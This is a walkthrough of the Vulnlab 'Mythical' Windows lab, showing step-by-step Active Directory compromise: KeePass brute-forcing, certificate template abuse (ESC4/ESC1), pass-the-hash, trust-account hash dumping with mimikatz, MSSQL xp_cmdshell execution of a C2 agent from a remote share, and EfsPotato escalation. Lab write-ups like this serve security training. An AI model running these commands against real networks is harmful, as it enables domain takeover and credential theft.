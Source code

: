 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/mythical/logo.png
date: 2025-04-29 09:45:47 +07:00
modified: 2025-04-29 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Mythical, Mythic C2, SharpHound, BloodHound, rsync, backup enumeration, KeePass, keepass4brute, ADCS, ESC4, ESC1, StandIn, Powerview, Certify, Rubeus, pass-the-cert, PassTheHash, mimikatz, trust account attack, domain trust abuse, service account, MSSQL, Trustworthy Databases, xp_cmdshell, privilege escalation, SeImpersonate, EfsPotato, OpenVPN, domain enumeration, execute_assembly, dotnet binary credential extraction, internal recon, beacon callback, SMBExec, machine account abuse, cert template abuse, NTLM hash dumping, lateral movement, Active Directory, assumed breach]
title: Mythical - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Mythical is a medium-difficulty Windows lab that simulates a post-breach assessment within a network hardened after a prior ransomware attack. Initial access is gained through a pre-established Mythic C2 session, allowing enumeration of internal infrastructure via a VPN tunnel. Backup misconfigurations expose sensitive data over rsync, leading to credential recovery from a KeePass database. Active Directory misconfigurations are exploited by escalating an ESC4 certificate template to ESC1, enabling certificate-based impersonation of a domain admin. Cross-domain trust abuse is performed by extracting the trust account hash and reusing it to access another domain, ultimately uncovering embedded credentials in a .NET binary. Privilege escalation is achieved by exploiting the TRUSTWORTHY setting in MSSQL to execute commands as sysadmin, and further access is gained using EfsPotato via SeImpersonate privileges—demonstrating how chained misconfigurations can still lead to complete domain compromise in an environment believed to be secured.


# Enumeration
After signing in with the provided credentials, we're presented with the Mythic C2 dashboard:
![](https://photos.squarezero.dev/file/abir-images/mythical/1.png)

We can see two agents, one of which is active.
![](https://photos.squarezero.dev/file/abir-images/mythical/2.png)

For an interactive shell, we can set both the interval and jitter time to 0. (Note: This is not recommended during real-world engagements.)
![](https://photos.squarezero.dev/file/abir-images/mythical/3.png)

As we already have a domain-joined account, we use SharpHound to collect domain-related information.
![](https://photos.squarezero.dev/file/abir-images/mythical/11.png)

## Port Scan

The user momo is part of two interesting groups: Backup Admins and OpenVPN Administrators.
![](https://photos.squarezero.dev/file/abir-images/mythical/4.png)

The IP configuration shows an active OpenVPN connection.
![](https://photos.squarezero.dev/file/abir-images/mythical/5.png)


We scan the VPN IP range and identify DC01 and the Mythic server. Scanning more internal IPs later reveals another DC, DC02.
![](https://photos.squarezero.dev/file/abir-images/mythical/9.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/10.png)


## Rsync
In the **_install** folder, we find the sqlcmd installer, indicating a MSSQL server is present.
In the **_admin** directory, we find an rsync binary, suggesting rsync was used for backups.
![](https://photos.squarezero.dev/file/abir-images/mythical/6.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/12.png)

Using an rsync client, we enumerate DC01's backup directory, which contains the first flag and a KeePass database.

```powershell
rync.exe -av list-only rsync://192.168.25.1
rync.exe -av rsync://192.168.25.1/mythical /temp
```
![](https://photos.squarezero.dev/file/abir-images/mythical/13.png)

# ADCS
## KeePass
The database version isn’t supported by **keepass2john**. 
![](https://photos.squarezero.dev/file/abir-images/mythical/14.png)

We use [keepass4brute](https://github.com/r3nt0n/keepass4brute) to brute-force it using the CLI version of KeePass.
![](https://photos.squarezero.dev/file/abir-images/mythical/15.png)

Once unlocked, we recover credentials for the domjoin user.
![](https://photos.squarezero.dev/file/abir-images/mythical/16.png)

## ESC 4
We use Certify to enumerate certificate templates and identify one vulnerable to ESC4. It allows enrollment and object control permissions for domain-joined computers.
![](https://photos.squarezero.dev/file/abir-images/mythical/17.png)

Since momo lacks machine account creation privileges, we impersonate domjoin and create a new machine account using **StandIn**.
```powershell
make_token mythical-US\domjoin <password>
execute_assembly -Assembly StandIn.exe -Arguments --computer szz --make
```
![](https://photos.squarezero.dev/file/abir-images/mythical/20.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/21.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/19.png)

We then impersonate this new machine account.
![](https://photos.squarezero.dev/file/abir-images/mythical/22.png)

Using PowerView, we modify the vulnerable certificate template to:

1. Allow domain users to enroll.

2. Enable impersonation of any user.

3. Make the template valid for client authentication
```Powershell
#Enrollment Rights
Add-DomainObjectAcl -TargetIdentity Machine -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=mythical-us,DC=vl"

#Impersonate Any Users
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mythical-us,DC=vl" -Identity Machine -XOR @{'mspki-certificate-name-flag'=1} -Verbose

#Authentication Rights
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mythical-us,DC=vl" -Identity Machine -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

```
![](https://photos.squarezero.dev/file/abir-images/mythical/23.png)

## ESC 1
We now abuse the modified template to impersonate a Domain Administrator and request a certificate. 
`execute_assembly -Assembly Certify.exe -Arguments request /ca:dc01.mythical-us.vl\mythical-us-DC01-CA /template:Machine /altname:Administrator@mythical-us.vl`
![](https://photos.squarezero.dev/file/abir-images/mythical/24.png)

We export the certificate as .pfx using OpenSSL.
`openssl pkcs12 -in admin.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
![](https://photos.squarezero.dev/file/abir-images/mythical/25.png)

We then use Rubeus to get a TGT and extract credentials.
`execute_assembly Rubeus.exe asktgt /user:Administrator /certificate:c:windows\tasks\cert.pfx /ptt /nowrap /getcredentials`
![](https://photos.squarezero.dev/file/abir-images/mythical/26.png)

Finally, we use Pass-the-Hash to execute a beacon as Administrator.
`powershell Invoke-SMBExec -Target 10.10.159.5 -Username administrator -Domain mythical-us.vl -Hash C583EF48C5ED66C727AECB6FAB87AC12 -Command "c:\programdata\google\update.exe"`
![](https://photos.squarezero.dev/file/abir-images/mythical/27.png)
![](https://photos.squarezero.dev/file/abir-images/mythical/28.png)

# Trust Account Abuse
BloodHound reveals a one-way trust from MYTHICAL-EU.VL to MYTHICAL-US.VL, allowing US users to authenticate in EU.
![](https://photos.squarezero.dev/file/abir-images/mythical/29.png)

We dump the trust account NTLM hash using Mimikatz.
`mimikatz "lsadump::trust /patch"`
![](https://photos.squarezero.dev/file/abir-images/mythical/30.png)

We use this hash with Rubeus to authenticate to MYTHICAL-EU.VL.
`execute_assembly -Assembly Rubeus.exe -Arguments asktgt /user:MYTHICAL-US$ /domain:MYTHICAL-EU.VL /rc4:eb921a2b0e9d626559dab0f54fdc6498 /nowrap /ptt`
![](https://photos.squarezero.dev/file/abir-images/mythical/31.png)

Using this ticket, we enumerate shares on DC02 and discover getusers.exe, a .NET binary.
![](https://photos.squarezero.dev/file/abir-images/mythical/32.png)

Disassembling it reveals credentials for svc_ldap.
![](https://photos.squarezero.dev/file/abir-images/mythical/33.png)

# Privilege Escalation
## MSSQL - TRUSTWORTHY Abuse
With svc_ldap credentials, we enumerate AD users on DC02.
`Get-ADUser -Filter * -Server "dc02.mythical-eu.vl" -Property DisplayName, SamAccountName | Select-Object DisplayName, SamAccountName`
![](https://photos.squarezero.dev/file/abir-images/mythical/34.png)

Often time companies reuse passwords for there service and administrative accounts. We check if the svc_ldap password works for svc_sql on the MSSQL server.
`shell  C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -Q "SELECT name, database_id, create_date FROM sys.databases;"`
![](https://photos.squarezero.dev/file/abir-images/mythical/35.png)


We identify that MSDB is TRUSTWORTHY and owned by svc_sql, allowing privilege escalation.
```Powershell
# Trusted Database
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -Q "SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;"

# Owners
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "SELECT rp.name as database_role, mp.name as database_user from sys.database_role_members drm join sys.database_principals rp on (drm.role_principal_id = rp.principal_id) join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)"
```

Next, we'll use the svc_sql account to create a new stored procedure, escalate its privileges by assigning it the sysadmin role on the SQL server, and then enable xp_cmdshell to execute system commands.
```Powershell
# Give Sysadmin Rights
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "CREATE OR ALTER PROCEDURE dbo.sz WITH EXECUTE AS owner AS ALTER SERVER ROLE sysadmin ADD MEMBER [MYTHICAL-EU\svc_sql];"
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC dbo.sz;"

# Enable XP_CMDSHELL
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q  "EXEC sp_configure 'show advanced options', 1; Reconfigure;"
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC sp_configure 'xp_cmdshell', 1; Reconfigure;"
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC xp_cmdshell 'whoami'"
```
![](https://photos.squarezero.dev/file/abir-images/mythical/36.png)

We host our agent on a shared folder from DC01 and execute it via xp_cmdshell.
```Powershell
# Accessible server
mkdir -Path C:\temp
shell net share temp=C:\temp /grant:everyone,full
cp -Source c:\programdata\google\update.exe -Destination C:\temp\update.exe

# Agent Callback
shell C:\windows\tasks\sql.exe -S tcp:10.10.153.71,1433 -d msdb -Q "EXEC xp_cmdshell '\\10.10.153.69\temp\update.exe'"
```
![](https://photos.squarezero.dev/file/abir-images/mythical/37.png)

## SeImpersonate
The current user has SeImpersonatePrivilege
![](https://photos.squarezero.dev/file/abir-images/mythical/38.png)

We use EfsPotato to impersonate an admin and execute our agent.
`execute_assembly -Assembly EfsPotato_4.0_x64.exe -Arguments \\10.10.153.69\temp\update.exe`
![](https://photos.squarezero.dev/file/abir-images/mythical/39.png)
